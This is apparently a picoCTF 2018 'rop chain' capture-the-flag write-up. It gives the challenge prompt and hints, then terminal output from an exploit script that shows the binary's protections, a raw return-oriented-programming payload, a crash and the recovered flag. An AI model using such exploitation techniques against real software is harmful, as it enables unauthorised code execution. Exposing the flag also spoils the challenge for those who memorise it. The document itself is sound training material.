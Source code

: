 # rop chain - Points: 350 - (Solves: 170)

Can you exploit the following [program][1] and get the flag?
You can findi the program in
/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47
on the shell server?
[Source][2].

[1]: https://2018shell2.picoctf.com/static/51c2b076860b7628c8d751424e923504/rop
[2]: https://2018shell2.picoctf.com/static/51c2b076860b7628c8d751424e923504/rop.c

## Hints

- Try and call the functions in the correct order!
- Remember, you can always call main() again!

---

```sh
python xpwn.py
[*] '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop': pid 3207089
[*] ˅\x0؅\x0+\x86\x0\xad\xaa\xaa\xba\xad\xba\xad�
[*] Process '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop' stopped with exit code -11 (SIGSEGV) (pid 3207089)
picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}
```

